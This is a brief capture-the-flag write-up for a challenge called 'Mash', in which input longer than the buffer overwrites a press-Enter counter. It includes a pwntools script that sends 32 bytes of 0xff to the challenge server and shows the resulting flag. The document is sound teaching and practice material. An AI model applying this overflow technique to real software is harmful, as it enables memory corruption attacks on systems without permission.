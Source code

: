 # Mash

Lets just run that binary
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
```

hmm, looks like we would have to press that enter button about 18446744073709551615 times.  Doesnt seem that doable, so lets try another approach.

Typing a bunch of `A`s we get:
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffff000a41
CURRENT COUNT: 0x4141414141414141
```

Interesting, looks like we can override the buffer here and have control over it.  After bessing around a bit, I realized I could fill the buffer with `\xff * 32`, so thats what I did.
```python
from pwn import *

io = remote('ctf.ropcity.com', 31337)
#io = process("./mash")

padding = "\xff"*32
io.sendline(padding)

io.interactive()
```
And running the script we get the flag!
```
HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
osu{n3xt_1evel_butt0N_maSh1ng}
```

